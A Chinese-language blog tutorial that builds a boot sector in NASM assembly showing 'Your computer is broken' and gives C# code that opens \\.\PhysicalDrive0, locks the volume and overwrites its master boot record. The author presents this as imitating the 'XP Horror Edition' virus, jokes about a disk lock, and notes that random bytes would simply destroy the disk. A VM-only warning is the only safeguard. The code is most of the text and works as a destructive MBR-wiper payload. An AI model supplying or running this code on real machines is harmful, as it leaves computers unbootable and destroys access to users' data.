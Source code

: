 # 使用汇编生成MBR并使用C#修改


该文章遵循 [Attribution-NonCommercial 4.0 International]()许可协议.

## 前言

之前我分享了一个使用[Csharp(简称C#,后文用此称)](https://learn.microsoft.com/zh-cn/dotnet/csharp/tour-of-csharp/)修改[MBR](https://baike.baidu.com/item/%E4%B8%BB%E5%BC%95%E5%AF%BC%E8%AE%B0%E5%BD%95/7612638)的方法,但是,MBR是由不同进制的字符组成的,我们想要让MBR~~变成
硬盘逻辑锁~~ 显示 我们想要的字符串该怎么办？
   
   修改MBR教程链接 [016281261](?id=016281261)

该操作极其危险,需要对电脑及其熟练的人才能操作,建议在虚拟机内运行,否则,后果自负!

## 开始之前

不知大家是否知道世界上的几大电脑病毒,其中比较恐怖的有 Windows XP horror Edition.用网上简洁一点的话说,该病毒涵盖了以下几个特征:
 1.伪装成XP升级包
 
 2.运行后改注册表
 
 2.运行后改[MBR](#前言)
 
 3.修改系统文件,常见的有 666.sys

 4.进度达`66%`的时候原本伪装的XP升级界面界面变红

 5.界面变红后出现几大恐怖节目

给大家看一下该病毒改完MBR后的效果图:

![XP Horror Edition的效果图](https://ts3.cn.mm.bing.net/th?id=OIP-C.OiD8YLDkDHFoGrBmT0D4SwHaEo)

这就是通过修改MBR实现的.想要改这样的MBR不是一件简单的事.

## 准备工作

前往 [NASM官网(2.16.01下载链接)](https://www.nasm.us/pub/nasm/releasebuilds/2.16.01/win64/nasm-2.16.01-installer-x64.exe) 下载NASM.
使用汇编语言这种底层语言修改MBR是比较简单的事情.

下载完之后打开安装程序,无脑点击Next 下一步即可,安装完成后创建一个空目录.

使用资源管理器打开刚才的空目录,在地址栏键入 `cmd` 并回车,打开命令提示符.

输入`nasm --version`查看版本号,确保nasm没有报错后进行下一步.

在这个空目录里新建MBR.asm,使用Notepad++等专业工具打开,在里面输入以下内容并保存.
```asm
    org 07c00h          ; 使其加载到7c00处
    mov ax, cs
    mov ds, ax
    mov es, ax
    call    DispStr         ; 调用显示字符串例程
    jmp $          ; 无限循环显示
    DispStr:
    mov ax, BootMessage
    mov bp, ax          ; ES:BP = 串地址
    mov cx, 16          ; CX = 串长度
    mov ax, 01301h      ; AH = 13,  AL = 01h
    mov bx, 000ch       ; 页号为0(BH = 0) 黑底红字(BL = 0Ch,高亮)
    mov dl, 0
    int 10h         ; 10h 号中断
    ret
BootMessage:        db  "Your computer is broken"
times   510-($-$$)   db  0   ; 填充剩下空间为512B
dw  0xaa55
```
保存后在打开的命令提示符内输入 `nasm MBR.asm -o MBR.bin`(可以不带 .bin扩展名)

随后在命令提示符内输入
```batch
echo= > boot.img
```
打开 [FloppyWriter](https://raw.githubusercontent.com/huangyingw/FloppyWriter/master/Release/FloppyWriter.exe)(需要先登录Github),点击 `Write FIle to Image`,选择刚才生成的MBR文件,然后会弹出第二个选择框,选择boot.img.

此时如果弹出 成功,表示操作成功.

随后我们可以打开Vmware WorkStation,选择任意虚拟机(创建虚拟机网上有教程,此处不再赘述),点击 "编辑虚拟机设置",


![添加硬件](https://img2.imgtp.com/2024/01/27/t3DmTfqI.png)

再点击"添加(A)",


![选择硬件类型](https://img2.imgtp.com/2024/01/27/CRvXhzMk.png)

选择”软盘驱动器"


![选择软盘加载方式](https://img2.imgtp.com/2024/01/27/wjmfvEjm.png)

再选择“使用软盘镜像文件",点击浏览,


![浏览boot.img](https://img2.imgtp.com/2024/01/27/VLyaOS3C.png)

选择boot.img镜像并点击确定,随后可以启动虚拟机查看文字效果.

![最终演示效果](https://img2.imgtp.com/2024/01/27/qAtJgI41.png)

上述代码由于字节过长,文字显示不全只能显示 "you computer is",需要把文字搞短一点点.使用MBR只能显示很短的文字,可以使用EFI显示文字.后续可能会出如何编写EFI显示文字的教程.

回到正题,我们已经生成了汇编ASM文件.接下来可以使用HexView工具查看MBR的Hex数据,也就是类似于这样开头的数据:

![MBR代码的Hex](https://img2.imgtp.com/2024/01/27/HMEP2ZQb.png)


由于HexView工具本身不支持复制MBR数据,所以我们只能截图并使用文字识别(注意识别出的文字切记要比对Hex原文,无需比对全部,比对一下里面不是`00`的地方即可.)

随后在`Visual Studio`中创建一个 Csharp ConsoleApp (控制台应用) 项目,我以ConsoleApp3为命名,且看`Main`函数的实现代码:
```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Text.RegularExpressions;
using System.Threading.Tasks;

namespace ConsoleApp3
{
    internal class Program
    {
        static void Main(string[] args)
        {
            string hexCode = @"8C C8 8E D8 8E CO E8 02 00 00 ......"; //把你的识别出来的MBR码放进去

            Regex regex = new Regex("[0-9A-Fa-f]{2}");
            MatchCollection matches = regex.Matches(hexCode);

            byte[] scode = new byte[matches.Count];

            for (int i = 0; i < matches.Count; i++)
            {
                byte b = Convert.ToByte(matches[i].Value, 16);
                scode[i] = b;
            }
            string hexString = string.Join(" ", scode.Select(b => "0x" + b.ToString("X2")));
            Console.WriteLine(hexString); //打印转换后的MBR数组
            Console.ReadLine(); //保持窗口不关
        }
    }
}

```
输入完代码按下`Ctrl`+`Shift`+`S`组合键保存代码(此代码可以多次利用,可谓是~~摸鱼好帮手~~ 一劳永逸).此时如果你按下了`F5`,就会打开一个控制台窗口.

![输出效果](https://img2.imgtp.com/2024/01/27/d6DOZveR.png)


如果你看到的是这种类型的(0x开头的数字或字母),代表你的MBR没问题.


不对呀,直接在每个MBR前面加0x不就行了? 不不不,~~懒~~ 一劳永逸不是很好吗?


如果报错了,那么可能是你在文字识别MBR图片的时候某个地方出错了,建议再次检查.

复制输出的那一堆 `0x` 开头的字符(从头到尾)

接下来重点来了,本次修改MBR的方式有一些不同,之前的[016281261](?id=016281261)是直接破坏,而本次是修改,如果乱填MBR码,也可以达到破坏的效果.

话不多说上代码:
```csharp
static void WriteMBR()
{
    byte[] scode = new byte[]
    {
        0x8C,0xC8,0x8E,0xD8,0x8E,0xE8,0x02,0xB9,0x10,0x00, ...                                 
    }; //自己之前通过控制台生成的MBR码
    uint dwBytesReturned;
    byte[] pMBR = new byte[512]; //MBR正好为 512 个字节
    Array.Clear(pMBR, 0, pMBR.Length);

    Array.Copy(scode, pMBR, scode.Length);
    /* pMBR[510] = 0x55; */
    /* pMBR[511] = 0xaa; */  //这两句代码其实是没必要的,如果你仔细留意之前控制台程序打印的MBR,你会发现结尾是有 0x55和0xaa的,加不加都没有关系

    IntPtr hDevice = CreateFile("\\\\.\\PhysicalDrive0", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, IntPtr.Zero, OPEN_EXISTING, 0, IntPtr.Zero);
    if (hDevice == IntPtr.Zero || hDevice.ToInt32() == -1)
    {
                MessageBox.Show("CreateFile failed..."); //创建硬盘文件失败
                return;
    }

    DeviceIoControl(hDevice, FSCTL_LOCK_VOLUME, IntPtr.Zero, 0, IntPtr.Zero, 0, out dwBytesReturned, IntPtr.Zero);

    WriteFile(hDevice, pMBR, 512, out dwBytesReturned, IntPtr.Zero);
    DeviceIoControl(hDevice, FSCTL_UNLOCK_VOLUME, IntPtr.Zero, 0, IntPtr.Zero, 0, out dwBytesReturned, IntPtr.Zero);
}
```

好了,本文章就到这里.如果你对我的文章满意,可不可以给我点一个三连或者赞?






 
